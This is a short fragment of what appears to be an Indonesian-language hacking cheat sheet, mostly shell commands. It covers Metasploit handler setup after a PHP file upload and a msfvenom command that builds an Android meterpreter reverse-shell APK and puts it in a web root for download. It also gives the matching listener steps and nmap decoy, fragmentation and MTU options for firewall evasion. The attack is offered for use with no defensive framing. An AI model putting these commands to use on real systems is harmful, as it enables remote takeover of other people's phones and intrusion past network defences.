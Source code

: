 ```sh
set lport 4444
```

```sh
exploit
```

Masuk Browser jalankan file php yg berhasil di upload tadi di URL
Remote Android
```sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.215 LPORT=4444 AndroidMeterpreterDebug=true AndroidWakelock=true R > /var/www/html/new.apk
```

```sh
sudo service postgresql start
```

```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh 
set payload android/meterpreter/reverse_tcp
```

```sh 
set lhost 192.168.x.x
```
```sh
exploit
```

## Nmap
## Firewall Evasion (Decoys,MTU & Fragmentation)

```sh
nmap -sS -sV -F -D RND:3 nmap.scanme.org
```

```sh
nmap -sS -sV -F -f -D 127.0.0.1 nmap.scanme.org
```

```sh
nmap -sS -sV -F -f --send-eth -D 127.0.0.1 nmap.scanme.org
```

```sh
nmap -sS -sV -F --mtu 16,24,32 -D 127.0.0.1 nmap.scanme.org
```

```sh
nmap -sS -sV -F --mtu 16 --send-eth -D 127.0.0.1 nmap.scanme.org
```
